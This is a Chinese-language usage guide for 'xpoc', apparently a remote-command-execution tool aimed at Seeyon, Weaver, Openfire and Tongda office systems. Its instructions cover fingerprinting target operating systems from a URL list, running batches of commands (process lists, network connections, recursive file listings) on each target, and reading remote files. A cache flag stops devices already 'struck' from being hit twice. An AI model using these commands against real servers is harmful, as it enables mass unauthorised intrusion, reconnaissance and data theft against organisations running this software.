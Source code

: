 # 使用说明

## 安装依赖环境

centos:

```shell
wget https://download.oracle.com/java/20/archive/jdk-20.0.1_linux-x64_bin.rpm
rpm -i jdk-20.0.1_linux-x64_bin.rpm
```

ubuntu:
```shell
wget https://download.oracle.com/java/20/archive/jdk-20.0.1_linux-x64_bin.deb
dpkg -i jdk-20.0.1_linux-x64_bin.deb
```

## 参数说明

-u  目标URL

-f  一个存储目标URL列表的文件，每行一个目标URL

-b  获取目标系统的基本信息，这个命令应该第一个被执行

-c  执行的cmd命令

-s  目标系统的shell名，可选的有cmd、sh。（目标系统是windows的情况下使用cmd，Linux则使用sh，一般情况下使用默认）

--cache  是否跳过缓存目标，开启后，已经成功的设备不会再被二次打击

-m  可选择的模块:

   - seeyon（致远）
   - weaver（泛微）
   - openfire
   - weaveremobile（泛微的emobile）
   - tongda（通达）

## 使用方式

1. 首先，判断目标设备的操作系统类型

   例如：`./xpoc -f targets.txt -m <model> -b`，判断目标操作系统的类型

   这一步会生成目标操作系统基本信息文件：basic_xxxx.txt

   targets.txt文件的内容为URL，形如：

   ```
   http://127.0.0.1:8890
   https://127.0.0.1:9091
   ...
   ```

2. 探明操作系统后，则执行对应操作系统上的命令，可以使用命令配置文件：

   例如，执行多条命令的配置文件config.json：

   ```json
   {
       "windows": ["tasklist", "netstat -ano"],
       "linux": ["ps -efw", "netstat -anpt"]
   }
   ```

   执行单条命令的配置文件config.json：

   ```json
   {
       "windows": "tasklist",
       "linux": "ps -efw"
   }
   ```

   像这样使用命令配置文件：`./xpoc -f basic_xxxx.txt -m <model> -c f:config.json`，使用前面生成的basic_xxxx.txt作为-f的参数，同时-c的参数需要使用f:指定配置文件的路径。

3. 当然，也可以不使用配置文件

   `./xpoc -f targets.txt -m <model> -c "ps -efw"`

   `./xpoc -f targets.txt -m <model> -c "dir \"c:\\Program Files\" "`

   **注意：如果不使用配置文件，则不需要使用basic_xxxx.txt作为-f的参数；同时注意命令中的`"`和`\`等需要转义。**

**注意事项**

1. 如果命令执行的时间过长，如取整个磁盘的文件列表，会导致程序超时无法正确执行，不建议使用
3. 命令执行的结果保存在output目录中，以目标IP为文件名，多次取证会覆盖同名文件，注意备份保存

## 特别说明

1. 当前，泛微(weaver)和致远（seeyon）这两个模块可以使用 -s 参数来修改执行命令的shell，如：

   `./xpoc -m seeyon -u http://192.168.100.250 -s sh -c ls  # 目标系统是linux的情况下，可使用-s参数来修改默认的shell`

2. weaveremobile模块支持取文件内容

   `./xpoc -m weaveremobile -u http://192.168.100.250 -d "c:/program files/abc/123"`

   注意事项：

   - 不会取目录中的子目录，只会取当前目录下的文件
   - 不要试图取那种目录下有超大、超多的文件的目录，可能会导致程序超时
   - 该功能暂时只支持weaveremobile

3. openfire的目标系统有windows和linux两种，其中的系统文件有很多，在取文件列表时如果直接进行全磁盘取可能会超时出错，这里建议这样操作：

   ```shell
   # 首先，判断操作系统类型
   ./xpoc -m openfire -f targets.txt -b    # 执行完后会生成basic_xxxxx.txt
   # 从basic_xxxxxx.txt中提取出windows和linux对应的URL
   
   # 对于目标是windows的：
   # 注意，windows上需要对特殊符号\和”进行转义: \\和\"
   ./xpoc -m openfire -f win.txt -c "cmd /c dir c:\\" 		# 首先列出C盘下的文件列表（其他盘符类似）
   ./xpoc -m openfire -f win.txt -c "cmd /c dir <路径>"	   # 注意路径中的特殊符号需要转义
   ./xpoc -m openfire -f win.txt -c "cmd /c dir /s <路径>"	   # 注意路径中的特殊符号需要转义，递归列举
   
   # 对于目标是Linux的：
   ./xpoc -m openfire -f linux.txt -c "ls -laR /usr/bin /usr/sbin /tmp /var /opt"  # 通过指定目录缩小范围
   ```

   如果结果文件中有`<br>`，这是HTML的换行，可以使用`notepad++`的文件替换功能将其替换为`\r\n`，便于阅读
